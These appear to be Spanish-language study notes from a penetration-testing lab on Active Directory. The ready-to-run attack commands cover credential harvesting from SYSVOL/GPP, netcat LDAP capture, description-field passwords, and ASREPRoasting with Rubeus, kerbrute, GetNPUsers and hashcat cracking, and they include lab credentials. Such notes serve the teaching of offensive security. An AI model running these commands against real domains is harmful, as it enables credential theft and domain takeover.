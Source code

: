 #ASREPRoasting 
## **Exchange Related Group Membership**

El grupo `Exchange Windows Permissions`no está considerado como protected group, pero los miembros de este grupo tienen la habilidad de escribir DACL en objetos del dominio, lo cual puede terminar dándonos privilegios de DSync. El grupo  `Organization Management` es un grupo extremadamente poderoso también (”domain admins” de exchange)

En este [repositorio de github](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) se pueden ver varias técnicas de ataque para los miembros de este grupo.
### PrivExchange
El servicio exchange corre como SYSTEM y es un grupo con más privilegios de los normales por defecto. Este ataque permite que cualquier usuario con correo fuerce al Exchange a autenticarse en otro host (NTLM Relay), lo que puede llevar a la obtención de privilegios de administrador de dominio.

## Printer Bug

## MS14-086

Es una falla de vulnerabilidad en la autenticación kerberos que permite crear tickets PAC (información que se adhiere a un ticket TGT) de manera que se acepten como legítimos por el KDC. La idea es crear el ticket en el que el usuario se presenta como Administrador del DC. Puede ser explotado con herraminetas como [Python Kerberos Exploitation Kit (PyKEK)](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) o con impacket.

## Capturando credenciales LDAP

Hay un [post interesante](https://grimhacker.com/2018/03/09/just-a-printer/) en el que nos cuentan como capturar credenciales. La idea detrás de esto es que hay aplicaciones o impresoras que guardan las contraseñas LDAP en la consola de administración. En otras ocasiones, las aplicaciones tienen una función “Test Connection”, que puede envíar credenciales en texto claro, por lo que podríamos capturarlas del siguiente modo:

```powershell
sudo nc -k -v -l -p 386
```

## Enumerando DNS

Podemos utilizar una herramienta como [adidnsdump](https://github.com/dirkjanm/adidnsdump) para enumerar todos los registros DNS de un dominio utilizando una cuenta de usuario de dominio válida. Esto resulta especialmente útil si la convención de nombres para los hosts que nos devuelven en nuestra enumeración utilizando herramientas como `BloodHound`es similar a `SRV01934.INLANEFREIGHT.LOCAL`. Si todos los servidores y estaciones de trabajo tienen un nombre no descriptivo, nos resulta difícil saber qué atacar exactamente. Si podemos acceder a las entradas DNS en AD, podemos descubrir potencialmente registros DNS interesantes que apunten a este mismo servidor

```powershell
adidnsdump -u inlanefreight\\\\forend ldap://172.16.5.5 -r
```

Devuelve un archivo `recrds.csv`

## Contraseñas en el campo description_field

```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}

samaccountname description
-------------- -----------
administrator  Built-in account for administering the computer/domain
guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
ldap.agent     *** DO NOT CHANGE ***  3/12/2012: Sunsh1ne4All!
```

## PASSWD_NOTREQD

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

## Credenciales en SMB y SYSVOL

**SYSVOL** es una carpeta compartida en los **controladores de dominio (DC)** de un entorno de **Active Directory (AD)**. Es utilizada para **almacenar y replicar archivos y scripts** necesarios para la administración del dominio. En ocasiones puede haber información interesante como scripts de inicio de sesión o archivos de políticas de grupo (GPO), que pueden contener credenciales en texto plano

Ejemplo de de muestra de información de sysvol desde un equipo unido al DC

```powershell
ls \\\\academy-ea-dc01\\SYSVOL\\INLANEFREIGHT.LOCAL\\
```

### Group Policy Preferences (GPP) Passwords

Cuando una GPP se crea, se almacena en un archivo `.xml` en sysvol. Este archivo contiene un array de configuraciones y contraseñas. Hay un campo `cpassword`, que está encriptado con AES-256, pero microsoft [publicó la llave privada](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN) ( [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30))

El valor de `cpassword` puede ser descifrado del siguiente modo:
```powershell
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Estas contraseñas pueden ser buscadas con herramientas como  [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

También se pueden localizar contraseñas con `nxc`,
```powershell
# Para mostrar los módulos relacionados con gpp
crackmapexec smb -L | grep gpp
# Usando el módulo gpp_autologin para volcar información de registry.xml
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

## ASREPRoasting

Cualquier usuario del dominio puede solicitar un Ticket Granting Ticket (TGT) de una cuenta que tenga deshabilitada la opción de preautenticación kerberos.
### Con powershell + rubeus
- Encontrar usuarios con `**DONT_REQ_PREAUTH`: `Get-DomainUser`
	```powershell
	Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
	```
- Recuperación AS-REP en formato adecuado mediante Rubeus (supongamos `mmorgan` tiene deshabilitada preautenticación)
	```powershell
	.\\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
	```
### Búsqueda de usuarios + Recuperación **AS-REP: `kerbrute`**
El siguiente comando nos mostrará, además de los usuarios del dominio, aquellos sobre los que se puede realizar aspreproasting + su hash
```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

### Busqueda de usuarios + recuperación AS-REP: `GetNPUsers.py`
Con esta herramienta podemos hacer lo mismo que con el comando anterior, pero necesitaremos una lista válida de usuarios del DC
```bash
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation
```
### Descifrando el hash con hashcat
```bash
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

